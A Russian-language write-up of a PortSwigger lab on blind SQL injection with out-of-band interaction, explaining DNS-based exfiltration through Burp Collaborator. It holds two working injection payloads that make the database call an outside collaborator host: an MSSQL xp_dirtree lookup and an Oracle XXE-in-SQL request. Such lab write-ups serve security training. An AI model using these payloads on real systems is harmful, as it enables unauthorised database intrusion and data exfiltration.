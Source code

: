 # Blind SQL injection with out-of-band interaction

## Theory

<h3>Использование слепых SQL-инъекций с использованием внеполосных методов (OAST)</h3>

Теперь предположим, что приложение выполняет SQL-запрос, но делает это асинхронно. Приложение продолжает обрабатывать запрос пользователя в исходном потоке и использует другой поток для выполнения запроса SQL с использованием файла cookie отслеживания. Запрос по-прежнему уязвим для SQL-инъекций, однако ответ приложения не зависит от того, возвращает ли запрос какие-либо данные, возникает ли ошибка базы данных или время, затраченное на выполнение. запрос.

В этой ситуации часто можно использовать уязвимость слепой инъекции SQL, запуская внеполосные сетевые взаимодействия с системой, которую вы контролируете. Как и ранее, они могут запускаться условно, в зависимости от введенного условия, чтобы выводить информацию по одному биту за раз. Но что еще более важно, данные могут быть удалены непосредственно в рамках самого сетевого взаимодействия.

Для этой цели можно использовать различные сетевые протоколы, но, как правило, наиболее эффективным является DNS. Это связано с тем, что очень многие производственные сети допускают свободный исход DNS-запросов, поскольку они необходимы для нормальной работы производственных систем.

Самый простой и надежный способ использования внеполосных методов — использование Burp Collaborator. Это сервер, который предоставляет настраиваемые реализации различных сетевых служб (включая DNS) и позволяет обнаруживать, когда происходят сетевые взаимодействия в результате отправки отдельных полезных данных уязвимому приложению.

Методы запуска DNS-запроса сильно зависят от типа используемой базы данных. В Microsoft SQL Server ввод, подобный следующему, может использоваться для поиска DNS в указанном домене:
```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Это заставит базу данных выполнить поиск следующего домена:
```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_interaction/assets/1.png)

Нажимаем на кнопку Home и перехватывам запрос.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_interaction/assets/2.png)


Откроем Burp Collaborator(Burp -> Burp collaborator client) и скопируем доменное имя(Copy to clipboard).

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_interaction/assets/3.png)

[SQL injection cheatsheet](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_cheatsheet#DNS_lookup) поможет сформировать запрос. Изменим параметр **BURP-COLLABORATOR-SUBDOMAIN** на скопированный нами ранее. Отправляем запрос.
```
XAm'+||+(SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//mukx6cjsuw8n9yyq5b58q2txyo4fs4.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual)--;
```
![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_interaction/assets/4.png)

Переходим в Burp Collaborator и нажимаем на кнопку **Poll now**. Получаем результаты запроса.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_interaction/assets/5.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/Blind_SQL_injection_with_out-of-band_interaction/assets/6.png)
